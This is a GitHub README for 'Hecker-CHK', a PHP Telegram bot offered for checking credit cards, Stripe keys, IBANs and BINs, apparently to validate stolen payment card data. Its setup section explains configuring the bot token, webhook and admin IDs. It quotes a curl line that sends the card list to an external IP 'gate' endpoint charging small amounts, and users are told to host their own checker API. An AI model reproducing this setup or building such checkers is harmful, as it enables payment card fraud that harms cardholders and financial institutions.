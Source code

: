 # Consider Using [This](https://github.com/Junaid433/Test-Chemcker-Bot) instead.

# Hecker-CHK
Simple CC Checker Telegram Bot With Fairly Enough Features. Made with PHP. 

# Features 
CC Checker

SK Checker

Iban Checker

IP Checker

BIN Checker

Bug Bin Detection Via TXT File.

Premium and free user system without any my sql database. [ via txt file ]

Stores Results in /tmp folder

# SETUP 

Change $botToken with your api token on modules/global.php

Webhook must be set to bot.php

Host your own checker api files and put link in bot files so it can access it. Files need to be editied with new link : 
au.php , sch.php , spp.php , mch.php , ch.php

Example: Current Link will be like { curl_setopt($ch, CURLOPT_URL, 'http://20.212.107.64/skbasedchk/gate/usd0.5.php?lista='.$lista.''); } 
it needs to be changed with your new link. After you have changed it should look like { curl_setopt($ch, CURLOPT_URL, 'http://yourcheckerlink.com/api.php?lista='.$lista.''); } 

Add your telegram userid to pre.txt

You will find some codes like this if ($userId == '766109755'){

You need to change $userId with your own id, however bot will still work but you will be missing admin some functions.

If you need any help, pm me on telegram. 
My Telegram - @fakehecker
